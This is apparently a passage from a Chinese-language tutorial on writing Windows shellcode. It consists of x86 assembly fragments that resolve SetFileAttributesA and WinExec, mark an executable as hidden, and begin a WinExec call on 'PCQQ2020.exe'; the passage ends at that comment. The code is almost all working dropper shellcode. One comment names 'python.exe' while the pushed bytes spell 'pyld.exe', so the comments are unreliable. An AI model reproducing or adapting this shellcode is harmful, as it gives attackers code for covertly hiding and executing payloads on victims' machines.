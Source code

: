 ```
push 0x42424173
mov [esp+2],byte dl
push 0x65747562
push 0x69727474
push 0x41656c69
push 0x46746553

push esp
push edi

call esi

;--------------------------------

add esp,20 ;U must adjust stack or it will crash
```
- 调用`SetFileAttributesA()`
```
;--------------------
;calling SetFileAttributesA("python.exe",FILE_ATTRIBUTE_HIDDEN) 
xor ecx,ecx
push ecx
push 0x6578652e
push 0x646c7970

push esp
pop ecx

xor edx,edx
add edx,2 ;FILE_ATTRIBUTE_HIDDEN

push edx
push ecx

call eax

;-------------------

add esp,8
```
- 找到`WinExec()`函数地址
```
;---------------------------

;finding address of WinExec()
xor ecx,ecx

push 0x41636578
mov [esp+3],byte cl
push 0x456e6957

push esp
push edi
call esi

;----------------------

add esp,8

```
- 执行函数
```
;------------------------
;calling WinExec("PCQQ2020.exe",0)
```